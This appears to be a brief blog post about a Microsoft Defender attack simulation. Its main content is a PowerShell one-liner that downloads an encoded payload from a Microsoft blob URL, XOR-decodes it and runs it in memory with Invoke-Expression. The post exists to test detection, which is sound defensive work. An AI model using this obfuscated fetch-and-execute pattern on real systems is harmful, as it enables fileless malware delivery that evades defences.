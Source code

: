 ```yaml
---
layout: post
title: "Microsoft 365 Attack Simulation"
excerpt: "Fileless PS attack with Process Injection and SMB recon"
excerpt_separator: "<!--more-->"
categories:
  - security
tags:
  - MicrosoftDefender
  - Security
last_modified_at: 2023-07-28T11:12:23-02:00
---
```




# Analyze the script



>You can download the script for the MS defender portal of your tenant

Here is the script:



```powershell
	[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor	= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String =	(Invoke-WebRequest -URI	https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt	-UseBasicParsing).Content;Try{ $contentBytes =	[System.Convert]::FromBase64String($base64String) } Catch { $contentBytes =	[System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;	$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];	$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression	([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

For More documentaion
https://mtpstaticcontent.blob.core.windows.net/mtpstaticfiles/MTP_PowerShellFilelessInjectionSMBRecon.pdf